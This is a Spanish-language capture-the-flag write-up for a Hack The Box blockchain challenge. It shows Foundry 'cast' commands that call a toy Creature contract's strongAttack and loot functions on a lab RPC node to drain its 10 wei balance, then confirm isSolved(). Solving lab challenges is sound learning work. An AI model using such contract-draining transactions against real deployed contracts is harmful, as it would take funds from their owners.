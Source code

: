 # htb-survival-of-the-fittest🦖
Hack The Box/Blockchain Challenge — Explotación de Smart Contract (Solidity)

Antes de comenzar el reto, fue necesario instalar Foundry, un framework de desarrollo para smart contracts en Solidity que permite interactuar con contratos ya desplegados. Puedes encontrarlo en su documentación oficial, o accediendo a: 

https://getfoundry.sh/
![Captura de pantalla 2025-06-22 154708](https://github.com/user-attachments/assets/62831ee1-bc54-43f9-aaa9-345dbb410ff8) <br><br>

El entorno de este reto corre en una red privada con RPC personalizado (RPC es la interfaz que nos permite interactuar con nodos de la blockchain remotamente).
Cada vez que reinicias el challenge, se te asigna una IP y puerto únicos, visibles en la sección "Connection" de la web del challenge. <br><br>

![Captura de pantalla 2025-06-22 154537](https://github.com/user-attachments/assets/87efd4bf-69dd-4114-b042-0da98e93f87c)
![Captura de pantalla 2025-06-22 160606](https://github.com/user-attachments/assets/bcb05e3e-7c58-410c-bc36-b1bb2cc3ccbe)


⚠️ La IP y el puerto que aparecen aquí son distintos a los tuyos. Asegúrate de copiar los datos actuales desde tu instancia en HTB.

~ Contratos proporcionados ~

![Captura de pantalla 2025-06-22 163301](https://github.com/user-attachments/assets/91f406ce-8298-4d87-ab69-2d4e94272159)

-Setup.sol
Este contrato crea una instancia de Creature.
Tiene una función isSolved() que devuelve true si Creature tiene balance == 0.

```
function isSolved() public view returns (bool) {
    return address(TARGET).balance == 0;
}
```

-Creature.sol
Este es el contrato principal del reto. Tiene una vida (lifePoints) inicial de 20. Permite atacarlo, y si su vida llega a 0, se puede llamar loot() para vaciar su balance.
```
isSolved(): Devuelve true si el contrato Creature ya no tiene saldo y nuestro ataque fue exitoso.
```
Conclusión: El reto consiste en interactuar con un contrato llamado Creature, que comienza con 20 puntos de vida (lifePoints) y contiene una función loot() que permite retirar su balance únicamente cuando sus puntos de vida llegan a cero. El objetivo es reducir 
su vida a 0 y vaciar su balance (inicialmente con 10 wei), de modo que la función isSolved() del contrato Setup retorne true.

![Captura de pantalla 2025-06-22 165903](https://github.com/user-attachments/assets/fdea670d-b208-486d-b12a-8d111ecadc63)
Estoy usando cast send para enviar una transacción.

```
cast send \
  --rpc-url http://94.237.48.12:43003/rpc \
  --private-key 0xbafd5876d4a4ac29bff3db7837c86f996c9322bacd734e0d242aaca015053a35 \
  0x844e738D927Ae2F465fC69C69eD9A7EC1E0a3C4f \
  "strongAttack(uint256)" 20
```
1. --rpc-url: Dirección RPC del nodo donde se corre el reto
2. --private-key: Clave privada de tu wallet
3. Dirección del contrato: Donde se envía la transacción (Creature o Setup)
4. "strongAttack(uint256)" 20: Llama a strongAttack con 20 de daño para dejar al Creature con 0 vida.
strongAttack(20) es una función del contrato Creature que reduce sus lifePoints en 20.

Como empieza con 20, al hacer esto queda con 0 vida.

Al ejecutarlo, se guarda en el estado del contrato que la Creature está "muerto".

![Captura de pantalla 2025-06-22 170020](https://github.com/user-attachments/assets/e8819347-66e2-4072-9d11-be34fbe9a201)
```
cast send \
  --rpc-url http://94.237.48.12:43003/rpc \
  --private-key 0xbafd5876d4a4ac29bff3db7837c86f996c9322bacd734e0d242aaca015053a35 \
  0x844e738D927Ae2F465fC69C69eD9A7EC1E0a3C4f \
  "loot()"
```
1. "loot()"	Reclama el balance del contrato si su vida es 0

loot() está protegida por un require(lifePoints == 0) ~ solo puede llamarse si mataste al Creature.

Como ya lo hice, la función transfiere todo el balance del contrato (10 wei) a mi wallet.

![Captura de pantalla 2025-06-22 170152](https://github.com/user-attachments/assets/cc11db3f-39d8-49dc-842e-823d2fdde5f9)
```
cast call \
  --rpc-url http://94.237.48.12:43003/rpc \
  0x1e5B512Fe445d623446E7c5B114f4f4142c59AB3 \
  "isSolved()"
  ```
 
Uso cast call (llamada de solo lectura) para consultar si el reto fue resuelto.
El contrato Setup tiene una función isSolved() que devuelve true cuando el Creature tiene balance == 0.

Como hice loot(), el contrato se quedó sin fondos, por lo tanto, devuelve 1 (que significa true).
Así que... ¡felicidades! El reto ya está resuelto. GGs!

~ Dirigete hacía la URL y escribe /flag 

![Captura de pantalla 2025-06-22 171522](https://github.com/user-attachments/assets/5df6324d-72da-48f2-bbe9-ba6550cb9000)

![Captura de pantalla 2025-06-22 154442](https://github.com/user-attachments/assets/56b73028-33c1-41d4-84ae-9f9252ca68ed)





